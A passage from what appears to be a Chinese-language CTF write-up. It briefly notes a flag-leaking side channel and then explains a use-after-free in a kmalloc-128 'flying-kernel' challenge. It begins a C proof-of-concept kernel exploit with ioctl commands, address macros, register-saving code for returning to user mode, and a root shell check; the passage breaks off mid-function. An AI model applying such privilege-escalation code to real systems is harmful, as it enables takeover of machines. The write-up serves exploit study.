 ```Bash


(0x7f > offset >= flag[index])  => go no => wait（block）
(flag[index] > offset < 0x20 )  => panic => error

```


### flying-kernel

* 明显的uaf，申请的0x80是kmalloc-128，在下面引用的文章中可以查询对于不同的kmem_cache的利用方法。
* poc.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <string.h>
#include <stdint.h>
#include <signal.h>
#include <sys/socket.h>

uint64_t D_base;
uint64_t K_base;

#define D(addr)        (uint64_t)((D_base)+(addr))
#define K(addr)        (uint64_t)((K_base)+(addr)-(0xFFFFFFFF81000000))
#define mmap3(addr)    mmap((void*)((addr)&(0xffffffff)&(~0xfffff)), 0x100000,7, MAP_PRIVATE|MAP_ANONYMOUS,-1,0)
  

#define ADD (0x5555)
#define FREE (0x6666)
#define SHOW (0x7777)



int fd;
int raceflag = 1;
uint64_t user_cs, user_ss, user_eflags,user_sp;

void save_stats() {
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
    printf("[*] save_stats\n");
}

void getshell()
{
    raceflag = 0;
    
    if(getuid() == 0)
    {
```